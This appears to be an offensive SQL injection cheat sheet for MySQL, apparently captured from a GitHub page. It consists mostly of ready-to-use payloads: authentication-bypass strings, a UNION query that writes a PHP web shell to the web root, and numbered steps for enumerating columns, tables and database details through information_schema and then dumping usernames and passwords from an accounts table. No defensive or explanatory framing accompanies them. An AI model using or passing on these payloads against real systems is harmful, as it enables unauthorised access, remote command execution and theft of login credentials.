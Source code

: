 If the database is mysql, try to dump all login info to files?

Mysql
```
'*'   
'&'  
'^'  
'-'  
' or true;--   
' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'
```

### Enumeration
1. Confirm number of columns

```
order by 1 -- 100
```

2. union select

```
union select 1,2,3,4,5,6,7 to find which column will display info
```

3. Find databse name, user name, and version.  << must use group_concat for one liner

```
(select group_concat(database(),0x3a,user(),0x3a,version()))
```

4. Find table name

```
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())
```

5. Find columns 

```
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out
```

6. Dump data

```
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)
```
